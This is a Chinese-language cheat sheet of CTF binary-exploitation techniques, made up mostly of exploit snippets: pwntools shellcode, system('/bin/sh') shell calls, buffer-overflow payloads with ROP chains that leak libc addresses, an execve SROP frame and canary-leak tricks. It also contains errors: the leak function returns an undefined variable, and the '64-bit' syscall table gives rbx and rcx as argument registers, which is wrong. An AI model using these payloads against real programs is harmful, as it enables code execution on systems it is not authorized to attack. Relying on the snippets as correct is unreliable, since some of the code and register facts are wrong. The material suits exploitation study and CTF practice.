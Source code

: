 ## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59

### 一句话getshell

one_gadget

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |    |
|  puts  |    |
|  gets  |  \x0A  |
|  read  |  \x0A  |
|  write  |    |
|  strcpy  |    |
|  strcmp  |  \x00  |
|  strncmp  |  比较长度为0则结果为0  |
|  strlen  |  \x00  |

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：

![](1.png)

则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read(fd, buf, size)  |
|  1  |  write(fd, buf, size)  |
|  15  |  rt_sigreturn  |
|  59  |  execve(cmd, 0, 0)  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

```
rax 系统调用号
rbx 参数1
rcx 参数2
rdx 参数3
```

## 0x006-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令

![](2.png)

> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数，下图是没对齐的情况

![](3.png)

## 0x007-Canary绕过

Canary特性：

1. 在同一个程序里，每个函数中的Canary值是一样的，也就是说可以在一个函数中泄漏Canary值，然后在另一个函数中使用Canary值完成栈溢出漏洞利用；
2. Canary最后两位一定是 "\x00"，也就是说如果函数中存在栈溢出，则可以将Canary的最后两位覆盖掉，那么就可以利用puts等函数将Canary的值打印出来；